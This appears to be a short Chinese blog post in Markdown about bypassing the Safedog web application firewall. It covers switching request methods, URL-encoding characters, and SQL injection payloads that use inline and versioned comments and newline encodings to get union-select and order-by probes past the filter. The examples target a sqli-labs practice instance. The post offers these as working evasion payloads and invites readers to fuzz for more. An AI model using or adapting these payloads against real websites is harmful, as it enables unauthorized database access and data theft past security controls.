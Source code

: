 ```yaml
---
title: "安全狗绕过思路" # 文章标题.
date: 2022-11-11
draft: false
tags: ["WAF绕过"]
categories: ["WAF绕过"]
---
```


# 安全狗绕过思路

如何绕过安全狗呢？

1. 修改提交方式。

   但是对方必须是request请求方法，这样才能够修改提交方式绕过相应的GET/POST

   ```mysql
   select database/**/();
   id=-1 union select 1,database/**/(),3# // post注入，如果不加/**/的话是被拦截的,/**/是注释，/*!*/也是注释(内敛注释)
   ```

2. 一些常见的URL编码

   ```http
   %23: #
   %00: null
   %0a: 换行
   %20: 空格
   %21: !
   %22: "
   %27: '
   ```

3. 根据绕过思路构建的一些Payload

   这些payload是如何构建出来的呢？是我们通过Fuzz方法的到的。这些Payload可能会失效，但是我们有了这些方法之后，我们就可以通过这些方法进而构建出更多的Payload。

   ```mysql
   select * from users where id=-1/*%0a*/union/*%0a*/select/*%0a*/1,2,3;
   %0a是换行
   
   http://192.168.132.132/mypage/sqli-labs/Less-2/?id=1 /*!14400and*/ 1=1
   
   http://192.168.132.132/mypage/sqli-labs/Less-2/?id=1 /**/order/*/%0A*a*/by/**/3--+ # %0A是换行
   SELECT * FROM users WHERE id=1 /**/order/*/换行*a*/by/**/4-- LIMIT 0,1
   ```
